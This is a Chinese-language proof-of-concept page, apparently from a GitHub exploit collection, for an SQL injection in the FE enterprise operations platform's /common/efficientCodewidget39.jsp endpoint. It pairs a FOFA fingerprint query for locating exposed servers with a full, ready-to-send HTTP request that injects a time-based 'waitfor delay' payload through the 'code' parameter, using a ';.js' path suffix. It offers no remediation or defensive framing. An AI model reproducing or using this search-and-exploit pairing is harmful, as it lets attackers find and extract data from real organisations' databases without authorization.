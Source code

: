 ## 飞企互联-FE企业运营管理平台efficientCodewidget39接口SQL注入漏洞

飞企互联-FE企业运营管理平台接口/common/efficientCodewidget39.jsp 存在SQL注入漏洞，可获取数据库数据。

## fofa

```
app="飞企互联-FE企业运营管理平台"
```

## poc

```
GET /common/efficientCodewidget39.jsp;.js?code=1%27;waitfor+delay+%270:0:5%27--+ HTTP/1.1
Host:
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=D92D72E197627037F9556C5625B4EFFA
Connection: close
```

![image-20240628210729948](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406282107001.png)